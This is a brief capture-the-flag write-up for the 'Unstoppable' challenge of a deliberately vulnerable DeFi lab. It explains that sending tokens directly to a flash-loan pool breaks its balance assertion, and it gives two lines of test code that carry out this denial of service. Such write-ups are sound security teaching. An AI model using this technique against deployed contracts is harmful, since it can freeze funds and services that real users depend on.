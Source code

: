 # Challenge #1 - Unstoppable

There's a lending pool with a million DVT tokens in balance, offering flash loans for free.

If only there was a way to attack and stop the pool from offering flash loans ...

You start with 100 DVT tokens in balance.

# My Solution

Call the ERC20 Token contract and manually transfer some more token to the UnstoppableLender contract so that `assert(poolBalance == balanceBefore);` is not true anymore.

code used to do that:

```
await this.token.approve(this.pool.address, TOKENS_IN_POOL);
await this.token.transfer(this.pool.address, TOKENS_IN_POOL);
```
